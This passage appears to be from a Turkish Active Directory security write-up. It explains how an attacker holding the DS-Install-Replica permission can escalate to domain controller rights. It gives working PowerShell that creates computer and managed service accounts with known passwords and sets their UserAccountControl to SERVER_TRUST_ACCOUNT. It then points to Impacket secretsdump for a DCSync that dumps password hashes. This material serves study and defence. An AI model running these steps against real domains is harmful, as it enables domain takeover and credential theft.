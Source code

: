 ```powershell

# Exporting found Access Control Entries into CSV file
Export-Csv -Path "FS-$ObjectDistinguishedName-$ActiveDirectoryRights-ACLs.csv" -NoTypeInformation;
```

## Exploitation

Saldırılar Impacket/Secretsdump.py ve ServerUntrustAccount.ps1 yardımıyla gerçekleştirilebilmektedir. Saldırganlar sistem üzerinde DS-Install-Replica iznine sahip kullanıcı ele geçirdiklerinde ServerUntrustAccount.ps1 modülü ve ayrıca aşağıdaki powershell betiklerini kullanarak parolası bilinen bilgisayar ve MSA hesapları oluşturabilirler.   

```powershell
# Computer Name to created
$ComputerName = "Computer123"

# Converting Password to SecureString format
$Password = (ConvertTo-SecureString -AsPlainText -Force "Password123")
 
# Creating Computer 
New-ADComputer $ComputerName -AccountPassword $Password
```

```powershell
# MSA Name to created
$ManagedServiceAccountName = "IISSVCC"

# DNS Host Name to created
$DNSHostName = "iissvcc.forestall.lab"
 
# Creating MSA  
New-ADServiceAccount -Name $ManagedServiceAccountName -DNSHostName $DNSHostName -PrincipalAllowedToDelegateToAccount "UserName"
```

Sonrasında oluşturulan bu bilgisayar ve MSA UserAccountControl attribute değeri SERVER_TRUST_ACCOUNT yapılabilmektedir. Bu işlemler manuel bir şekilde ServerUntrustAccount.ps1 modülü yada aşağıdaki powershell betikleri ile yapılabilmektedir.

```powershell
# Setting UserAccountControl Attribute to SERVER_TRUST_ACCOUNT 
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Set-ADComputer -Identity $ComputerName  -Replace @{"UserAccountControl" = 8192}
```

```powershell
# Setting UserAccountControl Attribute to SERVER_TRUST_ACCOUNT 
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Set-ADServiceAccount -Identity $MSAName -Replace @{"UserAccountControl" = 8192}
```

Bilgisayar ve MSA'lar bu işlemlerin ardından PrimaryGroupID değeri 516 olarak Domain Conrtoller yetkilerine sahip olmaktadır. Bundan sonraki adımlarda Impacket/Secretsdump.py ile sistem üzerinde DCSync saldırısı yaparak kullanıcı parola hash özetleri elde edilebilmektedir.
